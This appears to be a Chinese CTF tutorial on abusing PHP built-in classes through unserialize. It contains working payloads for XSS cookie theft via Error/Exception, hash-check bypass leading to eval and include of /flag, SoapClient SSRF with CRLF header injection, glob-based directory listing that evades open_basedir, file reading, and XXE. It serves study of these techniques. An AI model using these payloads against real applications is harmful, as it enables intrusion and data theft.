

# 查找原生类脚本

首先通过以下代码可以查看存在指定魔术方法的原生类

```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
            $methods = get_class_methods($class);
            foreach ($methods as $method) {
                if (in_array($method, array(
                        '__destruct',
                    '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'    // 可以根据题目环境将指定的方法添加进来, 来遍历存在指定方法的原生类
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}
```

# 利用Error/Exception内置类进行XSS（toString）

## Error类

**利用条件**

php7以上

开启报错情况下

```php
<?php
highlight_file(__FILE__);
$a=new Error("<script>alert(1)</script>");
$b = serialize($a);
$c = unserialize($b);
echo $c;
?>
```

自定义一个报错信息为js代码。`echo $c`时触发了`Error`类中的`toString`方法，导致报错把我们自定义的内容输出了。

造成了xss攻击。

## Exception类

利用条件：
`php5、php7
`开启报错的情况下


```php
<?php
highlight_file(__FILE__);
$a=new Error("<script>alert(1)</script>");
$b = serialize($a);
$c = unserialize($b);
echo $c;
?>
```

就是上面的换了一个类

### BJDCTF 2nd【xss之光】 
通过git拿到源码

```php
<?php 
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

给了GET传参，进行反序列化，不知道怎么自定义类，遇到了反序列化没有POP链的情况。只能通过php内置类进行反序列化，又存在echo，可以用__toString方法返回对象进行反序列化。该题为XSS之光，所以可以通过XSS拿出FLAG。

思路：flag一般在COOKIE的信息里。

```php
<?php
$poc=new Exception("<script>alert(document.cookie)</script>");
Echo urlencode(serialize($poc));?>
//反弹cookie
```

将得到的结果传入

```bash
/?yds_is_so_beautiful=$POC
```
## 利用Error/Exception 内置类绕过哈希比较

测试代码

```php
<?php
$a = new Error("payload",1);
echo $a;
```

发现会以字符串进行输出，包括当前的错误信息payload以及报错的行号2，传入 Error("payload",1) 中的错误代码“1”则没有输出出来。

```php
<?php
$a = new Error("payload",1);
$b = new Error("payload",2);
echo $a;
echo "\r\n\r\n";
echo $b;
```

输出:

```php
Error: payload in D:\phpstudy_pro\WWW\test.php:2
Stack trace:
#0 {main}

Error: payload in D:\phpstudy_pro\WWW\test.php:2
Stack trace:
#0 {main}
```

`$a` 和`$b` 这两个错误对象本身是不同的，但是 __toString 方法返回的结果是相同的。

可以利用这个方法绕过哈希比较。

### 2020 极客大挑战【Greatphp】
考点：php内置绕过哈希比较、php取反绕过

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if(($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}
if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}
?>
```

要是常见的php题目，可以数组绕过强类型。在这题目中，需要Error类。

```php
if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)))
```

md5()和sha1()可以对一个类进行hash，并且会触发这个类的 __toString 方法；且当eval()函数传入一个类对象时，也会触发这个类里的 __toString 方法。



  

还需要过滤掉小括号和引号

进行php取反

```bash
C:\Users\Administrator>php -r "echo urlencode(~'phpinfo');"
# %8F%97%8F%96%91%99%90
```

```php
Payload:?code=(~%8F%97%8F%96%91%99%90)();
```

```txt
将EXP写入
$cmd='/flag';
$cmd=urlencode(~$cmd);
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a=new Error($str,1);
$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));
?>
```


# 利用SoapClient::__Call进行SSRF

这里需要在php.ini打开soap的拓展配置找到extension=php_soap.dll，取消注释


PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。

该类的构造函数如下：

```PHP
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

- 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
    
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。
    

### 使用 SoapClient 类进行 SSRF（__call）

知道上述两个参数的含义后，就很容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数的location选项设置为target_url。

```PHP
<?php$a = new SoapClient(null,array('location'=>'http://47.xxx.xxx.72:2333/aaa', 'uri'=>'http://47.xxx.xxx.72:2333'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf?>
```

~~但是，由于它仅限于HTTP/HTTPS协议，所以用处不是很大。~~

这里书上说可以结合CRLF漏洞打redis等

### 使用：

一般用于ssrf，一些请求头伪造什么的，结合crlf

  

由于**SoapClient**原生类中包含`__call`方法，并且我们知道：当调用一个对象中不存在的方法时候，会执行`call()`魔术方法。

因此在CTF中通常会出现一种**存在调用不存在的方法**、**并且需要我们伪造请求头**的题目。

这种时候，**SoapClient**正好可以给我们解决问题。

下面拿一个例题来详细讲解**SoapClient**在CTF中是如何运用的。

首先题目是给了**flag.php**的源码，源码如下：

```Perl
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

打开题目后，内容如下：


```PHP
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key$vip->getFlag();
```

我们先审计**flag.php**，前半部分是对XFF头进行了处理：

```Bash
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
```

- **explode()** 函数可以把字符串打散为数组。
    
- **array_pop()** 弹出并返回 `array` 数组的最后一个单元，并将数组 `array` 的长度减一。
    

这三行代码实际上就是，将服务器得到的XFF的最后一个删除，留下的是**倒数第二个**。

假如我们有以下代码：

```PHP
<?php$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
print_r($ip);
```

当我们**XFF**传入以下内容：

```Bash
127.0.0.1                                                #返回：空
127.0.0.1,127.0.0.2                                #返回：127.0.0.1
127.0.0.1,127.0.0.2,127.0.0.3        #返回：127.0.0.2
```

接下来我们审计**index.php**的代码

```PHP
<?phphighlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key$vip->getFlag();
```

可以看到对传入的**vip**参数进行反序列化，并且调用**getFlag**方法，显然此处没有类定义了**getFlag**这个方法，因此我们考虑利用**SoapClient**原生类调用未知方法后执行call魔术方法，然后构造请求读取**flag.php**

接下来，我们手动在本地做测试：

我们有如下代码，其中**uri**中的**9998**端口是为了和**location**中的**9999**端口做区分：

```PHP
<?php$client = new SoapClient(null,array('uri' => 'http://127.0.0.1:9998/' , 'location' => 'http://127.0.0.1:9999/test'));

$client->getFlag();
```

然后我们nc监听**9999**端口

```YAML
nc -lvvp 9999
```

刷新页面之后，可以得到以下请求内容：


仔细观察后，发现是一个POST请求，并且**SOAPAction**的值是可控的

但是仅仅依靠这一处，没有办法伪造整一个POST请求，因为Content-Type是xml形式的，并且后面的传输内容也都是xml形式的，一般情况下POST传递参数的格式都是表单形式的（`application/x-www-form-urlencoded`)

因此我们可以想办法伪造**User-Agent头**：

修改后的代码如下：

```PHP
<?php$ua = "Lxxx";
$client = new SoapClient(null,array('uri' => 'http://127.0.0.1:9998/' , 'location' => 'http://127.0.0.1:9999/test' , 'user_agent' => $ua));

$client->getFlag();
```

nc监听后，得到的结果如下：


可以看到，**User-Agent**也被注入进去了，此时，**User-Agent**就成为了我们的可控参数

当**User-Agent**成为了我们的可控参数后，**User-Agent**下方的**Content-Type**也同样可以被伪造，利用`\r\n`换行即可伪造

再次修改后的代码如下：

```PHP
<?php$ua = "Lxxx\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";
$client = new SoapClient(null,array('uri' => 'http://127.0.0.1:9998/' , 'location' => 'http://127.0.0.1:9999/test' , 'user_agent' => $ua));

$client->getFlag();
```

代码中有几个注意的点

- 因为$ua中用到了`\r\n`这两个换行符，因此要用双引号包裹
    
- HTTP请求头之间的参数用一组`\r\n`分割即可
    
- HTTP请求头与POSTDATA之间要用两个`\r\n`分割.
    
- 设置**User-Agent**时，应写成**user_agent**
    

同样的，nc监听后，结果如下：


其中紫色方框中的是有效的HTTP请求，因为我们设置了**Content-Length**的值为**13**，超出13个字符以外的都会被服务器丢弃，所以影响不大。

在本地测试完成了，接下来我们将相关参数修改与题目相对应。

修改后的payload如下：

```PHP
<?php$ua = "Lxxx\r\nX-Forwarded-For: 127.0.0.1,127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";
$client = new SoapClient(null,array('uri' => 'http://127.0.0.1/' , 'location' => 'http://127.0.0.1/flag.php' , 'user_agent' => $ua));

print_r(urlencode(serialize($client)));
```

得到结果：

```Perl
O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A128%3A%22Lxxx%0D%0AX-Forwarded-For%3A+127.0.0.1%2C127.0.0.1%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A+13%0D%0A%0D%0Atoken%3Dctfshow%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

然后传入payload：

```Perl
?vip=O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A128%3A%22Lxxx%0D%0AX-Forwarded-For%3A+127.0.0.1%2C127.0.0.1%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A+13%0D%0A%0D%0Atoken%3Dctfshow%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

这样flag就被写到了**flag.txt**中，访问之后即可拿到flag：


但是这题本身是可以直接访问**flag.php**页面，伪造请求头得到flag的。

不过当有了cloudfare代理，无法直接在本地伪造请求头时，就需要利用**SoapClient**类来构造请求。

# 读取文件路径

## Directorylterator和Filesystemlterator（__toString）

- **Directorylterator** （PHP5, PHP7, PHP8）
    
- **Filesystemlterator** （PHP 5 >= 5.3.0, PHP 7, PHP 8）
    

```php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
	echo($f->__toString().'<br>');
}
```

```php
$a = new FilesystemIterator("glob:///*");
foreach($a as $f){
	echo($f->__toString().'<br>');
}
```

**他们在调用toString方法时都是返回第一个文件内容，使用要foreach循环**

区别就后者读取路径，前者是文件或目录名

使用 glob 协议的好处就是，该协议不受 open_basedir 配置的限制。

## **Globlterator（__toString）**

(PHP 5 >= 5.3.0, PHP 7, PHP 8)

PHP的官方简介：

遍历一个文件系统行为类似于 [glob()](https://www.php.net/manual/zh/function.glob.php)。

与前两个类的作用相似，`GlobIterator` 类也是可以遍历一个文件目录，使用方法与前两个类也基本相似。但与上面略不同的是其行为类似于 `glob()`，可以通过模式匹配来寻找文件路径。

既然遍历一个文件系统性为类似于`glob()`，所以在这个类中不需要配合`glob`伪协议，可以直接使用 `glob` 协议。

看了一下文档发现该原生类是继承`FilesystemIterator`的，所以也是以绝对路径显示的。

```PHP
<?php
highlight_file(__file__);
$dir = $_GET['x1ongsec'];
$obj = new GlobIterator($dir);
foreach($obj as $file){
    echo($file->__toString().'<br>');
}
?>
//?cmd=/*
```

**也是返回第一个，所以要foreach**

# **读取文件内容类**

## **SplFileInfo（__toString）**

（PHP 5 >= 5.1.2, PHP 7, PHP 8）

官方解释：

`SplFileInfo` 类为单个文件的信息提供了一个高级的面向对象的接口。

该类也存在 `__toString` 方法，

其返回值为文件的路径。

```php
<?php
$filename = $_GET['cmd'];
$obj = new SplFileObject($filename);
foreach ($obj as $content) {
    echo $content;
}
```

# 使用 SimpleXMLElement 类进行 XXE
- 适用于PHP 5, PHP 7, PHP 8

通过设置第三个参数 data_is_url 为 `true`，我们可以实现远程xml文件的载入。第二个参数的常量值我们设置为`2`即可。第一个参数 data 就是我们自己设置的payload的url地址，即用于引入的外部实体的url。

这样的话，当我们可以控制目标调用的类的时候，便可以通过 SimpleXMLElement 这个内置类来构造 XXE。

